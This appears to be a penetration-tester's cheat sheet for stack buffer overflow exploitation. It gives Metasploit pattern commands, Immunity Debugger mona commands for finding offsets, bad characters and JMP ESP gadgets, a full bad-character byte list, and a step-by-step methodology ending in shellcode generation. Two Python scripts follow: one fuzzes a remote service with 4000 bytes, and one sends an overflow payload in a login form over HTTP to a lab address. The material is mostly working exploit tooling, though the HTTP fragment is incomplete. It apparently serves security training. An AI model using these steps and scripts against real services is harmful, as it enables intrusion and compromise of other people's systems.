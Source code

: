 Buffer OverFlow

##########################################################################
##BUFFER OVERFLOW								##
##########################################################################
// BUFFER OVERFLOW COMMANDS
msf-pattern_create -l 4000
msf-pattern_offset -l 4000 -q 39794338
!mona modules
!mona find -s “\xFF\xE4” –m “<MODULE>”

// BUFFER OVERFLOW METHODOLOGY
# https://www.thecybermentor.com/buffer-overflows-made-easy
Steps:
	1. Crash The Application: Send "A"*<NUMBER>
	2. Find EIP: Replace "A" w/ pattern_create.rb -l LENGTH
	3. Control ESP: !mona findmsp (@crashtime), pattern_offset.rb, !mona pattern_offset eip
	4. Identify Bad Characters
	5. Find JMP ESP
	6. Generate Shell Code
Exploit

\x00 is bydefault badchar 

// BADCHARS
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

// IMMUNITY DEBUGGER MONA COMMANDS
!mona findmsp (find offset when app crashes)
!mona pattern_offset eip
!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin
!mona find -s "\xFF\xE4" -m <PROGRAM/DLL> 
!mona jmp -r esp
!mona jmp -r esp -cpb '\x00\x0a\x0d'

// BUFFER OVERFLOW FUZZING SCRIPT
#!/usr/bin/python
import socket
RHOST = ""
RPORT = ####
buf = "A" * 4000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
print "Sending buf"
s.send(buf + '\n')

// BUFFER OVERFLOW OVER HTTP SCRIPT
except 

		content = "username=" + inputBuffer + "&password=A"

		buffer = "POST /login HTTP/1.1\r\n"
		buffer += "Host: 192.168.139.10\r\n"
		buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
		buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
		buffer += "Accept-Language: en-US,en;q=0.5\r\n"
		buffer += "Referer: http://192.168.139.10/login\r\n"
		buffer += "Connection: close\r\n"
		buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
		buffer += "Content-Length:  "+str(len(content))+"\r\n"
		buffer += "\r\n"

		buffer += content

		s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

		s.connect(("192.168.139.10", 80))
		s.send(buffer)

		s.close()

modify as needed